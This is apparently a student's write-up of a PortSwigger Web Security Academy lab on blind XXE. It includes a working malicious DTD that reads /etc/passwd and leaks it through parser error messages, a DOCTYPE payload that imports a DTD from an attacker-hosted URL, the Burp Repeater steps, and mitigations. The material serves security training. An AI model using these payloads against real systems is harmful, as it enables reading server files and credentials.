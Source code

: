 # Lab 02 — Exploiting blind XXE to retrieve data via error messages 

**Vulnerability:** XML External Entity (XXE) — blind XXE exfiltration via error messages
**Lab source:** PortSwigger Web Security Academy

---

## Short overview

This lab demonstrates a blind XXE technique that uses an externally hosted malicious DTD to cause the vulnerable XML parser to attempt to read local files and then reference them in a way that triggers an error message containing the file contents. By hosting a crafted DTD and referencing it from the XML payload, an attacker can exfiltrate local files (for example `/etc/passwd`) via error output even when direct entity expansion is not echoed normally.

## Goal

* Host a malicious DTD that reads a local file into an entity, then references it in a way that produces an error containing the file contents.
* Inject a parameter entity pointing to the malicious DTD and provoke the application to include the file contents in the resulting error, allowing retrieval of local files in the controlled lab environment.

## Environment & tools

* Lab: PortSwigger Web Security Academy (controlled lab)
* Tools: Browser + Burp Suite (Proxy, Repeater, HTTP history), exploit server (hosted payload storage)

---

## My steps (narrative, exactly what I did)

I opened the exploit server provided by the lab and saved a malicious DTD file with the following contents:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

This DTD reads `/etc/passwd` into the `file` entity, then constructs an `exfil` entity that references a file path containing the `file` contents. I noted the URL of the hosted DTD via the exploit server's "View exploit" page. Next, I visited a product page and clicked "Check stock", intercepting the POST request in Burp Suite. I sent the request to Burp Repeater and inserted a DOCTYPE declaration that imported the external DTD and evaluated it, for example:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

I replaced the normal `productId` value with a reference to a parameter entity if required (or left the payload such that the parser imports and evaluates the DTD). After sending the modified request, the application returned an error page containing the contents of `/etc/passwd` as part of the error message.

---

## What I observed (sanitized)

* The application fetched and evaluated the externally hosted DTD.
* The crafted DTD caused the parser to read a local file and then reference it in a manner that produced an error containing the file contents.
* The error message returned by the server included the contents of `/etc/passwd`, demonstrating blind XXE exfiltration via error-based techniques.

---

## Proof (sanitized)

* The modified request sent via Burp Repeater that imported the external DTD (sanitized).
* The server error response showing the `/etc/passwd` contents embedded in the error (sensitive parts redacted).



---

## Mitigation

* Disable DTDs and external entity resolution in XML parsers, or use safe parser configurations that do not process external entities.
* Validate and sanitize XML input and avoid using XML features that allow external resource inclusion when possible.
* Restrict application server network access to local file resources and sensitive system endpoints.
* Apply the principle of least privilege to service roles and rotate any credentials discovered via metadata or local files.

---

## Lessons learned

* Blind XXE techniques can exfiltrate files even when expanded entities are not returned directly, by using error channels or indirect references.
* Hosting malicious DTDs on an attacker-controlled server is a powerful way to deliver complex XML payloads.
* Secure parser configurations and network isolation are key defenses against XXE-based SSRF and file exfiltration.
